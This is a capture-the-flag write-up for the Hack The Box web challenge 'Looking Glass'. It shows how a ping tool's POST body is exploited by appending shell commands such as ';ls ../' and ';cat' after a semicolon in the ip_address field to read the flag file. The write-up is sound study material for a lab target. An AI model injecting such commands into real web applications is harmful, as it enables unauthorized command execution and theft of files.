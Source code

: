 # HTB Looking Glass
Description: We've built the most secure networking tool in the market, come and check it out!

# Initial Ideas
Spawned instance is named "rce" in the browser tab. Likely some sort of simple remote code execution

# Page Source
We see that a POST method is being used. Nothing else of significance

![Web Source](https://github.com/landoty/hack-the-box/blob/main/challenges/web/looking_glass/page-source.png)

# Inspect
Since Looking Glass is using a POST method, we can observe the network monitor in the browser. This is an easy challenge, so we shouldn't need to use much else.

## Request Body
Navigating to the **Headers** section, we see the request body contains `test=ping&ip_address=167.99.84.37&submit=Test`. These are simply Linux/Unix commands being sent over the API, so we could try editing them.

![Request Body](https://github.com/landoty/hack-the-box/blob/main/challenges/web/looking_glass/request-body.png)

### PoC
Command injection via a web request can be added by inserting a semicolon followed by the command itself. For example, `test=ping&ip_address=167.99.84.37;pwd&submit=Test` returns:

![PoC Image](https://github.com/landoty/hack-the-box/blob/main/challenges/web/looking_glass/POC.png)

### Finding the Flag
Using the same stucture, we can list all the files in the top directory:
`test=ping&ip_address=167.99.84.37;ls ../&submit=Test`

![Found the Flag](https://github.com/landoty/hack-the-box/blob/main/challenges/web/looking_glass/found-the-flag.png)

### Read Flag
`test=ping&ip_address=167.99.84.37;cat ../flag_MF7Nb&submit=Test`

![Flag](https://github.com/landoty/hack-the-box/blob/main/challenges/web/looking_glass/read-flag.png)

